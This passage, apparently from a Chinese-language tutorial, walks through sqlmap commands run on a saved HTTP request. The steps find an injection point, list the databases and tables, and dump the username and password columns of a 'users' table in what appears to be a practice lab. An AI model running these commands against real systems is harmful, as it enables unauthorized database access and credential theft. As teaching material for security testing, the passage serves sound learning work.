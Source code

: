 ![18176b60cf7753989f8d691f91a3575](https://gitee.com/zh0y0/picture/raw/master/zh0y0/18176b60cf7753989f8d691f91a3575.png)

###### 4.2复制数据包内容至sqlma文件目录下

我们把这个内容保存到SQLMAP根目录下的一个txt文件内，我这里是1.txt

![e9bbc86285c0b782d276ec193ba96bd](https://gitee.com/zh0y0/picture/raw/master/zh0y0/e9bbc86285c0b782d276ec193ba96bd.png)

###### 4.3 判断是否为注入点

```
python sqlmap.py -r 1.txt --batch
--batch   默认选择
```

![094cba306075e566d01682914cd518c](https://gitee.com/zh0y0/picture/raw/master/zh0y0/094cba306075e566d01682914cd518c.png)

###### 4.4 爆数据库名

```
python sqlmap.py -r 1.txt --dbs --batch
--dbs  列出所有数据库
```

![76613dea0a1a918f85e25e36a54e170](https://gitee.com/zh0y0/picture/raw/master/zh0y0/76613dea0a1a918f85e25e36a54e170.png)

###### 4.5 爆表名

```
python sqlmap.py -r 1.txt --batch -D security --tables
-D 指定数据库
--tables  列出表名
```

![05bb2a34f8c7bc0c85c0405a840b2a0](https://gitee.com/zh0y0/picture/raw/master/zh0y0/05bb2a34f8c7bc0c85c0405a840b2a0.png)

###### 4.6 爆字段名

```
python38 sqlmap.py -r 1.txt --batch -D security -T users --columns
-T 指定表
--columns 列出列名
```

![5f5253e98efaba338101949c88f51de](https://gitee.com/zh0y0/picture/raw/master/zh0y0/5f5253e98efaba338101949c88f51de.png)

###### 4.7 爆数据

```
python38 sqlmap.py -r 1.txt --batch -D security -T users -C username,password --dump
-C 指定字段
--dump 输出字段值
```

![11444fb566eec3e24d3cc3318bb393c](https://gitee.com/zh0y0/picture/raw/master/zh0y0/11444fb566eec3e24d3cc3318bb393c.png)
